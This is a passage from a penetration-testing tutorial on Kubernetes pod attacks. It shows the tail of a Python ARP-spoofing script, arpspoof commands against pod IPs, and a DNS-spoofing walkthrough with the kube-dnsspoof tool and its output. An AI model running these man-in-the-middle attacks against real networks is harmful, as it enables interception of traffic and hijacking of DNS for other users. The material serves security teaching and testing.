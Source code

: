 ```python
		print("Gateway is unreachable")
		quit()
	try:
		print("Sending spoofed ARP responses")
		while True:
			spoofarpcache(targetip, targetmac, gatewayip)
			spoofarpcache(gatewayip, gatewaymac, targetip)
	except KeyboardInterrupt:
		print("ARP spoofing stopped")
		restorearp(gatewayip, gatewaymac, targetip, targetmac)
		restorearp(targetip, targetmac, gatewayip, gatewaymac)
		quit()

if __name__=="__main__":
	main()

# To enable IP forwarding: echo 1 > /proc/sys/net/ipv4/ip_forward
```
{% endcode %}

### ARPSpoof

```bash
apt install dsniff
arpspoof -t 172.17.0.9 172.17.0.10
```

## DNS Spoofing

As it was already mentioned, if you **compromise a pod in the same node of the DNS server pod**, you can **MitM** with **ARPSpoofing** the **bridge and the DNS** pod and **modify all the DNS responses**.

You have a really nice **tool** and **tutorial** to test this in [**https://github.com/danielsagi/kube-dnsspoof/**](https://github.com/danielsagi/kube-dnsspoof/)

In our scenario, **download** the **tool** in the attacker pod and create a **file named `hosts` ** with the **domains** you want to **spoof** like:

```
cat hosts
google.com. 1.1.1.1
```

Perform the attack to the ubuntu-victim machine:

```
python3 exploit.py --direct 172.17.0.10
[*] starting attack on direct mode to pod 172.17.0.10
Bridge:  172.17.0.1 02:42:bd:63:07:8d
Kube-dns:  172.17.0.2 02:42:ac:11:00:02

[+] Taking over DNS requests from kube-dns. press Ctrl+C to stop
```
